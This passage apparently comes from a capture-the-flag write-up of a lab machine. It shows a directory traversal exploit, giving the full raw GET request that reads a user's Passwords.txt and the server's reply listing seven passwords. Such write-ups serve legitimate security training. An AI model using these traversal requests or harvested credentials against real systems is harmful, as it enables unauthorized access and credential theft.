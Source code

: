 ![Checking for LFI through directory traversal](/assets/img/screenshot_2020-06-20_20-53-48.png)

The machine was indeed vulnerable, and I used the information from the message `Nadine` left for `Nathan` to form my directory traversal GET request.  The server returned a list of seven passwords for me try out.

```text
GET /../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt HTTP/1.1
Host: 10.10.10.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: dataPort=6063; lang_type=0x0804%24zh-cn
Upgrade-Insecure-Requests: 1
DNT: 1
```

```text
HTTP/1.1 200 OK
Content-type: text/plain
Content-Length: 156
Connection: close
AuthInfo: 

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```
